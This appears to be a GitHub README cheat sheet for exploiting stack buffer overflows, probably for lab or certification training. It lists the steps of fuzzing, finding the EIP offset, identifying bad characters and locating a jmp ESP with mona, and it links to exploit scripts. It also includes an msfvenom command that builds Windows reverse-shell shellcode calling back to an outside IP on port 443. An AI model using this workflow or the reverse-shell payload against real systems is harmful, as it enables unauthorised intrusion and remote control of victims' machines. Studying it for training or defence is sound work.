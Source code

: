 #  Buffer Overflow Cheat Sheet

1. Connecting to vulnerable app
```nc <ip> <port> ```
2. Fuzzing
([Fuzzer.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/fuzzer.py))

3. Finding EIP
([finding_eip.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/finding-eip.py))
```
msf-pattern_create -l $length
msf-pattern_offset -q $EIP
``` 


4. Determining bad chars
([bad_chars.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/bad_chars.py))
```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
!mona compare -f C:\mona\vulnapp\bytearray.bin -a <ESP_badchar_address>
``` 
5. Finding jmp ESP
```
!mona jmp -r esp -cpb  "\x00\xyz\xxx"
```

6. Generating Shellcode 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.238.148 LPORT=443 EXITFUNC=thread -b "\x0\x07\x08\x2f\x2e\xa0\xa10" -f py -v shellcode

```
7. Exploiting
([exploit.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/exploit.py.py))
